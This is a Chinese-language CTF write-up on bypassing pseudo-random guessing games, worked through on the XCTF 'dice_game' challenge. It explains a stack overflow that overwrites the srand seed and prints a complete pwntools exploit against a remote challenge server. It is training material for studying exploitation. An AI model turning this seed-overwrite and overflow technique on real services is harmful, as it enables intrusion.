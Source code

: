 ![string\_4](https://f/C/png/string_4.png)

### 伪随机数绕过

刷到了一些伪随机数绕过题目，题目程序一般是个猜数游戏，连续多次（比如下面例题50次）猜对随机数就会print flag给我们，这种题目思路是利用srand函数其实是生成伪随机数（相同的种子下生成的随机数是固定的）来进行绕过——先覆盖种子为固定已知值，然后就可以绕过随机数了。

#### 例题1 攻防世界dice\_game （XCTF 4th-QCTF 2018）

源程序分析：![discgame1](F:%5CPWN%5Cdiscgame1.png)

看到连续让v5等于0 50次就会运行sub\_B28()函数：输出flag

![discgame3](F:%5CPWN%5Cdiscgame3.png)

而v5函数是由sub\_A20()函数赋值：![discgame2](F:%5CPWN%5Cdiscgame2.png)

在函数中可以看到要让v5等于0必须猜中随机数，分析主函数中存在栈溢出点，我们想要绕过随机数就要覆盖让seed为固定值（比如1），从buf到seed偏移量是（0x50-0x10）![discgame4](F:%5CPWN%5Cdiscgame4.png)

那么第一个覆盖seed的payload就有了—— ‘a’\*（0x50-0x10）+ p64(1)

接下来就是生成出那50个伪随机数并一一输入就可以打通了，exp如下：

```python
from pwn import *
from ctypes import *
#ctypes是Python内建的用于调用动态链接库函数的功能模块，rand函数要用cdll中的函数。

p=remote('61.147.171.105',56061)
context(arch="amd64",os="linux")
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
#加载指定版本libc文件


p.recvuntil('Welcome, let me know your name: ')
seedpayload='a'*0x40+p64(1)
p.sendline(seedpayload)#覆盖种子为1

libc.srand(1)

#设置种子为1进行伪随机数生成，
#也可以用下面这段C代码进行生成，但需要注意的是在Linux下和windows下生成的随机数是不一样的,一定要在相同环境下运行生成的伪随机数才一样
#	#include<stdio.h>
#	#include<stdlib.h>
#	int main()
#	{
#		int i,x;
#		srand(1);
#		for(i=0;i<=50;i++)
#		{
#			x = rand() % 6 + 1;
#			printf("%d\n",x);	
#		}
#		return 0;
#	}

for i in range(50):
	num=str(libc.rand()%6+1)
	p.sendlineafter("point(1~6):",num)

p.interactive()
```
